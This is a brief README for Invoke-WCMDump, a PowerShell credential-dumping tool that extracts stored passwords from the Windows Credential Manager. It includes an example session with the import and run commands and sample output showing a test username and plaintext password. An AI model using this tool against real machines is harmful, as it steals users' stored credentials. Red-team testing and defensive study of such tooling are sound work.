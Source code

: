# Invoke-WCMDump
PowerShell Script to Dump Windows Credentials from the Credential Manager

Enumerates Windows credentials in the Credential Manager and then extracts available information about each one. Passwords are retrieved for "Generic" type credentials, but can not be retrived by the same method for "Domain" type credentials.

Author: Barrett Adams (@peewpw)

## Example
```
PS>Import-Module .\Invoke-WCMDump.ps1
PS>Invoke-WCMDump
    Username         : testusername
    Password         : P@ssw0rd!
    Target           : TestApplication
    Description      :
    LastWriteTime    : 12/9/2017 4:46:50 PM
    LastWriteTimeUtc : 12/9/2017 9:46:50 PM
    Type             : Generic
    PersistenceType  : Enterprise
```
